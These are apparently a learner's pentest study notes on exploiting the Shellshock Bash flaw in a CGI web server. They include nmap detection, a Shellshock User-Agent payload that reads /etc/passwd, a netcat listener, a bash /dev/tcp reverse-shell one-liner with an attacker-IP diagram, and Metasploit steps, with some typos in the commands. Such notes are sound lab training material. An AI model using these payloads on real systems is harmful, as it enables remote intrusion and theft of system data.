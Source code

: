 # Exploiting Bash CVE-2014-6271 Vulnerability (Shellshock)
#### Overview
`Shellshock`\
Is the name given to a family of vulnerabilities in the **Bash shell**
CGI 

Check if Apatch is running
```bash
nmap <IP>
```
Search IP address on browser and notice CGI command is working in the website in developer tool
Check if it's has vulnerabilities\
[--script=http-shellshock](https://github.com/itr-a/eJTP-Learning/blob/f35580191317792f0cee361f7e7910c405182f4d/Tools/Nmap.md#53)
```bash
# Specify link with 'uri'
nmap -sV <IP> --script=http-shellshock --script-args "http-shellshock.uri=/gettime.cgi"
```
Select BurpSuit on FoxyProxy
`BurpSuit`
Linux tool
Make sure **Intercept is on** in **Proxy** tab\
-> Click **Forward**\
Inject special characters in HTTP header
Send requests to Repeater
On **Repeater** tab
-Remove user agent information
```bash
# Send this command
User Agent: () {:;}; echo; echo; bin/bash 'c 'cat /etc/passwd'
```

reverseshell
Set up listener port
```bash
# nc -nvlp <'listen port'>
```

```bash
# <'listen port'> -> 'bash -i>&/dev/tcp/<target IP></listening port> 0>&1'
```

Exploit with Metasploit
```bash
service postgresql start && msfonsole
```
```bash
search shellshock
```
-> Use exploit module
```bash
set RHOSTS
set TARGETURI <example: /gettime.cgi>
exploit
```
---
#### 📓 Note
`FoxyProxy`\
What is **Proxy**?\
A proxy server is like a **middleman between you and the internet**.\
Why use Proxy?
|Purpose|Explanation|
|---|---|
|Hide IP|Site sees the proxy's IP instead
|Bypass restrictions|Access content blocked in the region|
|Filter traffic|seful in companies or schools to block certain sites|
|Debug/Intercept|Tools like Burp Suit use proxy capture your browser traffic|


Example
- Want to visit most sites normally
- BUT want all traffic to a website to go through Burp Suit so can analyze requests


Proxy vs VPN
|Term|What is hides|Encryption|
|---|---|---|
|Proxy|Only browser/app traffic|No encryption(unless HTTPS)|
|VPN|All network traffic|usually encrypted|

Plugin that allows to automatically switch between proxies -> click BurpSuit
-> All traffic will be redirected to the BurpSuit

`Burp Suit`\
An intercepting proxy tool that let you analyze, manipulate and reply web traffic.\
Used in **bug bounty**, CTFs and real-world pentesting.\
What you can do with Burp Suite
|Feature|Purpose|
|---|---|
|Proxy| Intercept/modify browser ↔ server traffic|
|Repeater|Manual request editing & replay|
|Intruder|Brute-force/fuzzing|
|Scanner|Auto find vulns|
|Decoder|Encode/decode data|
|Extensions|Add custom scripts/tools|
<br>
<br>

`reverse shell`\
A reverse shell is when the *target system* connects back to *you* and
gives you **remote command-line access**.
```bash
Attacker (YOU: 10.0.0.1)               Victim (10.0.0.22)
┌────────────────────┐                ┌────────────────────────┐
│ nc -lvnp 4444      │ <──── Connect ─┤ bash -i >& /dev/tcp/10.0.0.1/4444 0>&1
│ (listening shell)  │                │  (reverse shell script)│
└────────────────────┘                └────────────────────────┘
```
#39\
```bash
# <'listen port'> -> 'bash -i>&/dev/tcp/<target IP></listening port> 0>&1'
```
|Part|What it means|
|---|---|
|`bash`|Call **Bash Shell**|
|`-i`|Runs it in **interactive mode**<br>You can type commands and get resposes
|`>&`|Redirect **stdout(1)**and **stderr(2)** to a new location
|`/dev/tcp/<IP>/<listening port>`|A **special file** in Bash that lets you open a TCP connection to an IP and port.
|`0>&1`|Redirects **stdin(0)** to the same place as **stdout**<br>-> Everything flows through the same TCP socket
